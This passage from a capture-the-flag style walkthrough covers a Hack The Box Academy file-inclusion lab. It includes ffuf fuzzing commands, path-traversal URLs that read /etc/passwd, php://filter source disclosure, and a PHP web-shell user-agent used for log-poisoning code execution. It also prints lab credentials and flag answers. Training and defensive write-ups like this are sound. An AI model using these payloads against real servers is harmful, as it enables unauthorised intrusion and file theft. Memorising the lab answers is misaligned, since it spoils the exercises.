
*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


*_Figure 25.3 — Lab execution and output verification (Page 25)_*


### and such..)

We can observe that there are a lot of results, and seemingly all of them has
the same size (and words and lines). Lets try to filter out that size – 2309. We
will also add '-s' to suppress any redundant output (progress bar, further info
and such..):
```bash
ffuf -w burp-parameter-names.txt:FUZZ -u 'http://<target-
```
IP>:<target-port>/index.php?FUZZ=value' -fs 2309 -s


The automation script found 'view' as our parameter property.
Now we need to find the proper values for local file inclusion.
For that we will use our second wordlist - 'LFI-Jhaddix.txt', also that is to be
downloaded manually, and not with 'wget'.
Lets run the command to locate the proper parameter value:
```bash
ffuf -w LFI-Jhaddix.txt:FUZZ -u 'http://<target-IP>:<target-
```
port>/index.php?view=FUZZ'


*
*


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


*_Figure 26.2 — Lab execution and output verification (Page 26)_*


### exclude that as well in the same manner

*
*

Once again, output flood. And they all seem to be 1953 bytes long, so lets
exclude that as well in the same manner:
```bash
ffuf -w LFI-Jhaddix.txt:FUZZ -u 'http://<target-IP>:<target-
```
port>/index.php?view=FUZZ' -fs 1935 -s


Those parameters seem to work. lets test that on the browser:
http://<target-IP>:<target-
port>/index.php?view=../../../../../../../../../../../../../
../../../../../../../../../etc/passwd


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


*_Figure 27.2 — Lab execution and output verification (Page 27)_*


*_Figure 27.3 — Lab execution and output verification (Page 27)_*


### Lets replace the '/etc/passwd' with '/flag.txt'

We got a hit! that's the '/etc/passwd' content.
Lets replace the '/etc/passwd' with '/flag.txt':
http://<target-IP>:<target-
port>/index.php?view=../../../../../../../../../../../../../
../../../../../../../../../flag.txt


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


*_Figure 28.2 — Lab execution and output verification (Page 28)_*


### File Inclusion Prevention

> **Lab Question (Page 29)**: What is the full path to the php.ini file for Apache?
>
> **Flag / Answer**: `/etc/php/7.4/apache2/php.ini`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this section are provided with the credentials
'htb-student:HTB_@cademy_stdnt!' to ssh connect to the target linux machine
```bash
ssh htb-student@<target-IP>
```


*
*

Once inside, lets make a search for the file:
```bash
find / -type f -name php.ini 2>/dev/null
```


As we are told for the apache file, that would be the second result.


*_Figure 29.1 — Lab execution and output verification (Page 29)_*


*_Figure 29.2 — Lab execution and output verification (Page 29)_*


*_Figure 29.3 — Lab execution and output verification (Page 29)_*


### found (sudo is required for the modification)

> **Lab Question (Page 30)**: Edit the php.ini file to block system(), then try to execute PHP Code that uses system. Read the /var/log/apache2/error.log file and fill in the blank: system() has been disabled for ________ reasons.
>
> **Flag / Answer**: `security`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will need to modify the '/etc/php/7.4/apache2/php.ini' we just
found (sudo is required for the modification):
```bash
sudo nano /etc/php/7.4/apache2/php.ini
```
what we will do, is to find the disable_functions directive in the file, and add
'system' to it:

→

And save  (ctrl+w)
When that's done, we will restart the Apache service (don't forget the 'sudo'):
```bash
sudo nano restart apache2
```


*_Figure 30.1 — Lab execution and output verification (Page 30)_*


*_Figure 30.2 — Lab execution and output verification (Page 30)_*


*_Figure 30.3 — Lab execution and output verification (Page 30)_*


### in it – we will paste the following simple content

Now when that's done -  lets create a dummy php file in '/var/www/html'
(website home directory). We will call it 'test.php'.
```bash
sudo touch /var/www/html/test.php
```

in it – we will paste the following simple content:
<?php
system('ls');
?>


And save.

Now lets test this dummy page. in the pwnbox, lets enter this dummy page:
http://<target-IP>/test.php


Once entered, lets check the error log in the target machine:
```bash
sudo cat /var/log/apache2/error.log | grep system
```


The missing word is 'security'


*_Figure 31.1 — Lab execution and output verification (Page 31)_*


*_Figure 31.2 — Lab execution and output verification (Page 31)_*


*_Figure 31.3 — Lab execution and output verification (Page 31)_*


### Capstone: Skills Assessment

> **Lab Question (Page 32)**: Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.
>
> **Flag / Answer**: `a9a892dbc9faf9a014f58e007721835e`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

*note – as this question took me several sessions to complete, the
target IP and target ports will change in the screenshots throughout the
solution. *
We will begin by looking at the website:
http://<target-IP>:<target-port>


Looks fine enough, several pages. Lets see one of them, contact for example:

We can see the URL format is '/index.php?page=<page>', where in this case,
<page> is 'contact'.


*_Figure 32.1 — Lab execution and output verification (Page 32)_*


*_Figure 32.2 — Lab execution and output verification (Page 32)_*


### 'Automated Scanning' section in detail

Now, in this stage any directory traversal will fail (even with attempted bypass),
neither automated one.
Also page source inception will reveal nothing of the ordinary.
Before we proceed, lets run path bruteforce to make sure we didn't miss any
pages. We will use ffuf for this endevour.
We will also use the wordlist 'Directories_All.wordlist', and I will tell you
upfront to use the flags '-fs 4322 -s', which their purpose was covered in
'Automated Scanning' section in detail:
```bash
ffuf -w Directories_All.wordlist:FUZZ -u 'http://<target-
```
IP>:<target-port>/index.php?page=FUZZ' -fs 4322 -s


Those are the values received. 'main', 'contact' and 'about' can be reached
from the web-interface. (also 'industries', but that word is not in the particular
wordlist we used). 'error' can be reached when attempting manual directory
traversal.
'index' however.. that is worth looking further inspection

Well then, we will use the base64 encoded page retrieval on the index page:
http://<target-IP>:<target-
port>/index.php?page=php://filter/read=convert.base64-
encode/resource=index


*_Figure 33.1 — Lab execution and output verification (Page 33)_*


*_Figure 33.2 — Lab execution and output verification (Page 33)_*


### We can see the base64 encoded index page. Lets decode it

We can see the base64 encoded index page. Lets decode it:

We can see this extra line in the page source, which was not in the original
page.
That line reveals another path: 'ilf_admin/index.php'. lets check it out:
http://<target-IP>:<target-port>/ilf_admin/index.php


We get to this Admin panel with those 3 logs. We wont use those logs,
however clicking on any of them reveals the parameter '?log=<value>':

lets run here ffuff automated directory traversal to see where can we get.


*_Figure 34.1 — Lab execution and output verification (Page 34)_*


*_Figure 34.2 — Lab execution and output verification (Page 34)_*


*_Figure 34.3 — Lab execution and output verification (Page 34)_*


### file is 5. So lets enter the URL

We will use the wordlist 'LFI-Jhaddix.txt'
```bash
ffuf -w LFI-Jhaddix.txt:FUZZ -u 'http://<target-IP>:<target-
```
port>/ilf_admin/index.php?log=FUZZ' -fs 2046 -s
*yes, here we will put upfront the '-fs 2046', for the same reason. *

*
*

We can see the automated directory traversal found a path to '/etc/passwd' –
the username lists on linux (which we can confirm it is linux with 'nmap -sV').
Now – the lowest number of '../' that is required for sucsessfull access to the
file is 5. So lets enter the URL:

http://<target-IP>:<target-
port>/ilf_admin/index.php?log=/../../../../../etc/passwd


It works. Here is the list of usernames.

However that on itself wont help us in this situation, however we can use the
same method to get to the server access.log file.


*_Figure 35.1 — Lab execution and output verification (Page 35)_*


*_Figure 35.2 — Lab execution and output verification (Page 35)_*


*_Figure 35.3 — Lab execution and output verification (Page 35)_*


### 'Web Developer Tools'

For that, we need to determine which linux service is running the website.
Luckily for us, the http response header – server property gives us the answer.
Lets refresh the page, however we will set developer settings network tab on
(or burpsuite, doesn't matters) (usually to open developer settings we go for
browser settings (3 lines or 3 dots on the side of the browser → 'More Tools' →
'Web Developer Tools':

→

The server is 'nginx'.
Meaning, the access.log will be located in '/var/log/nginx/access.log'
Lets access that file in the same method we accessed the '/etc/passwd':
http://<target-IP>:<target-
port>/ilf_admin/index.php?log=/../../../../../var/log/nginx/
access.log


*_Figure 36.1 — Lab execution and output verification (Page 36)_*


*_Figure 36.2 — Lab execution and output verification (Page 36)_*


*_Figure 36.3 — Lab execution and output verification (Page 36)_*


### To run in the server 'ls /'

We are in. we will proceed with the user-agent manipulation to obtain RCE
technique used in the 'Log Poisoning' section.
Lets open the same page in burpsuite repeater (intercept the URLon proxy →
right click the request → select 'Send to Repeater'.

In the request, we will modify the user-agent to
<?php system($_GET['cmd']); ?>

And to the path we will add the
&cmd=ls%20/
To run in the server 'ls /':

In the response, we scroll down to the end of the log – and observe the file
'flag_dacc60f2348d.txt'. lets get it:
&cmd=cat%20/flag_dacc60f2348d.txt


*_Figure 37.1 — Lab execution and output verification (Page 37)_*


*_Figure 37.2 — Lab execution and output verification (Page 37)_*


It might be visible better on the browser (this time when we know the flag's file
name, we can obtain it directly without the use of remote code execution):
http://<target-IP>:<target-
port>/ilf_admin/index.php?log=/../../../../../flag_dacc60f23
48d.txt


*_Figure 38.1 — Lab execution and output verification (Page 38)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1059, T1083, T1505.003` |
| **Common Weakness Enumerations** | `CWE-22, CWE-98` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1059`](https://attack.mitre.org/techniques/T1059/) | **Command and Scripting Interpreter** | `Execution` | Remote File Inclusion (RFI) code execution via remote scripts |
| [`T1083`](https://attack.mitre.org/techniques/T1083/) | **File and Directory Discovery** | `Discovery` | Local File Inclusion (LFI) reading `/etc/passwd`, logs, or sensitive configs |
| [`T1505.003`](https://attack.mitre.org/techniques/T1505/) | **Server Software Component: Web Shell** | `Persistence` | Log poisoning or session poisoning to achieve RCE |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-22`: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')](https://cwe.mitre.org/data/definitions/22.html)
- [`CWE-98`: Improper Control of Generation of Code ('PHP Remote File Inclusion')](https://cwe.mitre.org/data/definitions/98.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Log and block HTTP requests containing directory traversal sequences: `../`, `..%2f`, `....//`, and PHP wrappers (`php://filter`, `php://input`, `data://`).
- Disable `allow_url_include` and `allow_url_fopen` in `php.ini` configuration.
- Confine web application file access using chroot jails, containerization, or PHP `open_basedir` restrictions.


---

## Authoritative References & Recommended Reading

- [HTB Academy: File Inclusion](https://academy.hackthebox.com/module/23) — *Official Hack The Box curriculum track*
- [OWASP File Inclusion Vulnerabilities](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) — *Methodology and exploitation analysis*
- [PayloadsAllTheThings: File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion) — *Comprehensive LFI/RFI cheat sheet*
- [PortSwigger: Directory Traversal](https://portswigger.net/web-security/file-path-traversal) — *Practical exploitation scenarios*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-8-command-injections/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 8: Command Injections & Filter Evasion</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 9 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-10-attacking-common-services/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 10: Attacking Common Services (SMB, SQL, RDP, SSH)</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
